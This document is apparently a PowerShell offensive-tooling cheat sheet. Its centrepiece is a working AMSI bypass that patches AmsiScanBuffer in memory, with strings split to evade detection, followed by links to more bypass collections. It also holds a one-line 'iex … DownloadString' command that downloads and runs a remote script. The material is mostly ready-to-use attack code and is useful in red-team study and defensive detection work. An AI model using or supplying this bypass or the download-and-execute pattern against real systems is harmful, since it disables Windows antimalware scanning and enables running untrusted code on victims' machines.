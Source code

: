 # Patching amsi.dll AmsiScanBuffer by rasta-mouse
```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
- [AMSI.fail](https://amsi.fail/)
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
- [Small modification to Rastemouse's AmsiScanBuffer bypass to use bytes.](https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998)

# Enable support of TLS 1.2
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

# Download a script from an HTTP server
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/microsoft/ExPerfAnalyzer/main/ExPerfAnalyzer.ps1')
```
